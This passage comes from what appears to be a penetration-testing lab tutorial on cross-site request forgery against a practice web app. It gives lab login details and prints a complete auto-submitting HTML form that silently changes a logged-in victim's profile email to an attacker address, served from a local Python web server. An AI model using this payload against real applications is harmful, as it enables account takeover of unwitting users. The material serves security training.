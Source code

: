 To successfully exploit a CSRF vulnerability, we need:

* To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
* The victim to be logged into the application at the time when the malicious cross-site request is issued

In your web application penetration testing or bug bounty hunting endeavors, you will notice a lot of applications that feature no anti-CSRF protections or anti-CSRF protections that can be easily bypassed.

We will focus on evading anti-CSRF protections in the following sections.

### Cross-Site Request Forgery Example

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: crazygorilla983
* Password: pisces

This is an account that we created to look at the functionality of the application. Run Burp Suite.

Activate burp suite's proxy (Intercept On) and configure your browser to go through it. Now, click on "Save."

You should see the below:
![28](https://academy.hackthebox.com/storage/modules/153/28.png)

We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).

First, create and serve the below HTML page. Save it as `notmalicious.html`:
```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
If you are wondering how we ended up with the above form, please see the image below:
![29](https://academy.hackthebox.com/storage/modules/153/29.png)

We can serve the page above from our attacking machine as follows:
```
user@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```
No need for a proxy at this time, so don't make your browser go through Burp Suite. Restore the browser's original proxy settings.
